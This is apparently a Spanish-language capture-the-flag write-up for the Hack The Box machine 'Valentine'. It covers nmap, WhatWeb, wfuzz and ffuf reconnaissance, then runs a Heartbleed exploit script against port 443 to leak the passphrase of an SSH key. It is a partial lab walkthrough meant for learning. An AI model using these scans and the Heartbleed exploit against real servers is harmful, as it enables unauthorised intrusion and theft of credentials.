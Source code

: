 # Valentine-HTB


## NMAP

```
batcat -l ruby Scan
sudo nmap  -sS  -p-  -vvv 10.0.160.83 -oG ports
sudo nmap  -sSCV  -p443,80,22  -vvv 10.0.160.83 -oN Scan
```

![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/180caebf-94da-41c4-b46b-c64a0b28daf3)


### Scripts por categoria

![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/54c3c833-d66a-4152-b9ec-88cbf7524232)

Esto fue lo que me falto al ver un apache viejo no revise que vulnerabilidades tenian esto lo pongo aqui pero realmente ya se me ocurrio hasta despues.

```
locate *.nse | xargs grep "categories" | grep -oP '".*?"' | sort -u # grep -P de regex Perlpattern -o de only match.
nmap --script "vuln and safe" -p443 10.129.71.228
nmap --script "vuln and safe" -p443 10.129.71.228
nmap --script "vuln and safe" -p80 10.129.71.228
```

Con ayuda del servicio SSH pudimos reconocer la vercion del Ubuntu al que nos enfrentamos "Ubuntu 12.04.5 LTSPrecise"


## WhatWeb

Es importante hacer este check tanto para http como https y en este caso dan lo mismo osea son iguales las respuestas.

```
http://10.129.74.37 [200 OK] Apache[2.2.22], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.129.74.37], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
```

## WFUZZ 

Ya lo que hago es ir armando el comando a mi convenciencia pero es cosa de practica sigue practicando 

```
wfuzz -c --hw=4 --hc 400 -p 127.0.0.1:8080 -X POST -d "FUZZ=eth0" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.0.160.83:1337 # Fuzzed de peticion post paso por proxy.

```

## FFUF

Esta herramienta tienen cosas buenas como la de todas las respuestas seria bueno que le hecharas un ojo

```
ffuf -r -fc 404 -fs 3861 -t 1000  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.75.0:3000/api/FUZZ # la -r es para segur las redirecciones.
```

## Dirbuster

```

```

## HeartBleed

5![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/39f7244d-1973-49c3-b9a6-a47c286cfc89)


Nos damos cuenta que es un servidor viejo vulnerable a heartbleed entonces pues probamos el exploit y nos trae una cadena en base64 que es el paass de la key id_rsa

```
pythn2 32764.py 10.129.71.228 -p 443 | grep -v "00"

```

















